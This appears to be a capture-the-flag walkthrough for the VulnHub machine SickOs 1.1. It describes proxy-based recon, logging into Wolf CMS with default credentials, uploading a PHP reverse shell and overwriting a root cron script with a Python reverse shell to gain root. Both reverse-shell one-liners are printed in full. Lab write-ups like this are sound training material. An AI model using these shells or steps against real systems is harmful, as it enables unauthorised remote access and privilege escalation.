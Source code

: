 ```yaml
---
published: false
---
```

[SickOs: 1.1](https://www.vulnhub.com/entry/sickos-11,132/) is a vulnerable machine with an objective to get root and read file /root/a0216ea4d51874464078c618298b1367.txt


To get VM's IP I used nmap
	
[1]

Output gave me information that VM runs http proxy. I configured Firefox to use it and tried to access VM's localhost. 

[2]

I succeed and noticed some simple website. I tried robots.txt and found that there is Wolf CMS run under /wolfcms

[3]

I asked google for some information about Wolf CMS and found two directories used for installation process - /install and /docs. I tried both but only /docs was available. In file http://localhost/wolfcms/docs/install.txt I found default credentials, but I didn't know where to put them. I went to google again and searched for URL to admin panel which occurred to be http://localhost/wolfcms/?/admin/login.
Default credentials worked and I got access to administration panel.

[4]

From this place I was able to upload reverse shell and connect to VM.

	<?php
	exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.175.1/8888 0>&1'");
	?>

After I got access to shell and started investigation what this machines does. I found that there is a cron running python script as root every minute. Fortunatelly I had permission to overwrite this file.

[5]

I uploaded reverse shell again, but this time written in python.

	#!/usr/bin/python
	import os
	os.system("/bin/bash -c 'bash -i >& /dev/tcp/192.168.175.1/9999 0>&1'")

I used existing shell to overwrite existing script with uploaded one, ran netcat on port 9999 and waited one minute until I got root shell.

[6]

[7]





